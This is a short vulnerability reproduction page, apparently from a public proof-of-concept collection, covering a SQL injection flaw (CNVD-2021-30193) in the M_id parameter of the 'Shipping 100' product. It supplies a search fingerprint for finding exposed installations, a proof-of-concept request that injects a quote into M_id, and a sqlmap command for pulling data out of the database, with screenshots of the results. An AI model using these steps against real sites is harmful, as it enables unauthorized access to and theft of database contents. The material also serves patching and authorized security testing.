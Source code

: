 # Shipping 100 M_id SQL injection vulnerability CNVD-2021-30193

## Vulnerability Description

The 100 M_id parameter has SQL injection vulnerability, and the attacker can obtain sensitive database information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Shipping 100</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1420424513"</span>

## Vulnerability reappears

The main page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210602204745265.png)



Using POC



```plain
/?M_id=1%27&type=product
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210602204842198.png)



An error occurred in the database, use Sqlmap to inject



```plain
sqlmap -u 'https://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210602233608318.png)